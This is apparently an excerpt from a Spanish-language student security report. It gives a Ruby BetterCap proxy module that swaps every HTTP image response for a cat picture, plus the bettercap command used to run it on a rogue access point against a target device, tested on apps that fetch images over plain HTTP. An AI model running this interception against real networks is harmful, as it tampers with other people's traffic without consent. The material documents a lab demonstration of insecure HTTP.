 \begin{lstlisting}[language=ruby]
  # encoding: UTF-8
  # redirecttocat.rb
  
  # This proxy module will redirect all images to a cat image.
  class RedirectToCat < BetterCap::Proxy::HTTP::Module
  meta(
    'Name'        => 'RedirectToCat',
    'Description' => 'This proxy module will redirect the target(s) images requests to a cat image.',
    'Version'     => '1.0.0',
    'Author'      => "Federico Martinez",
    'License'     => 'GPL3'
    )
    
    # Cat image URL
    @@url = 'http://www.catster.com/wp-content/uploads/2017/08/A-fluffy-cat-looking-funny-surprised-or-concerned.jpg'
    
    def on_request( request, response )
    if response.content_type =~ /^image\/.*/ and !@@url.include?(request.host)
    BetterCap::Logger.info "[#{'REDIRECT'.green}] Redirecting #{request.to_url} to cat ..."
    response.redirect!(@@url)
    end
    end
    end
\end{lstlisting}
    
Básicamente, este plugin captura todas las requests HTTP que devuelven imágenes y la convierte en una imagen de un gato que nosotros especificamos. Pusimos a correr bettercap de la siguiente manera sobre la interfaz de nuestro rogue AP:

bettercap -I wlan0 --proxy-module redirecttocat.rb -T 10.0.0.168 -G 10.0.0.1 --no-spoofing

Luego, utilizando aplicaciones como Spotify o Mercadolibre que utilizan requests HTTP inseguras para imágenes, pudimos obtener resultados como el siguiente al querer ver el carousel de imágenes de una publicación de mercadolibre:
